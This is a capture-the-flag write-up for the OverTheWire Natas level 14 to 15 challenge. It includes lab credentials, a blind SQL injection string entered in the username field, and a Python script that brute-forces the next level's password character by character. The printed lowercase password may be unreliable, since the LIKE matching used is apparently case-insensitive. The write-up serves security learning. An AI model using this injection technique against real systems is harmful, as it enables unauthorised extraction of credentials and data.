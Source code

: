 # Level 14 → Level 15

## Details
Username: `natas15`<br />
Password: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`<br />
URL:      http://natas15.natas.labs.overthewire.org

## Solution
<img src="./0.png"></img>

<img src="./1.png"></img>

We can edit the query by entering the username. But no matter what we inject the only output will be an indication of the user's existence. Therefore we can try to "guess" the password, and if the output is "existing user" then it is correct.

Username: `natas16`:

<img src="./2.png"></img>
<img src="./3.png"></img>

We will check that the length of the password is indeed 32 characters, like all the passwords so far.<br />
Username: `natas16" and password like "________________________________";#`
<img src="./4.png"></img>
<img src="./5.png"></img>

Now we will compile a script that Brute Force the password, character by character:

```python
from requests import post
from string import digits, ascii_letters

URL = "http://natas15.natas.labs.overthewire.org/index.php"

# After looking at the sent packet and some trial and error, these are the essential headers:
HEADERS ={}
HEADERS["Authorization"] = \
"Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"

# The template for the blind sql injection
DATA = "username=natas16\" and password like \"________________________________\";#"

password = ""

# Brute force on the password in O(n^2) when `n` is len(digits + ascii_letters)
while(len(password) < 32):
    index = DATA.find("_")
    for char in digits + ascii_letters:
        
        # update the current char
        DATA = DATA[:index] + char + DATA[index+1:]
        response = post(url=URL, headers=HEADERS, data=DATA)
        
        if "This user exists" in response.text:
            password += char
            print("password: "+ password.ljust(32, "_"))
            break
```

Output is:

<img src="./6.png"></img>


## Password for the next level:
```
trd7izrd5gatjj9pkpeuaolfejhqj32v
```
